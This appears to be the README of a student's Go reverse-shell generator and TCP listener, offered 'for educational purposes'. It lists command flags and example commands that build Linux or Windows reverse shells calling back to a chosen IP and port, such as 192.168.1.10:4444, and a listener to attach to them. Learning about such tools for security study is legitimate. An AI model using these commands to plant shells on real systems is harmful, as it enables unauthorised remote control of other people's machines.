 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Publish package

**[`^        back to top        ^`](#)**

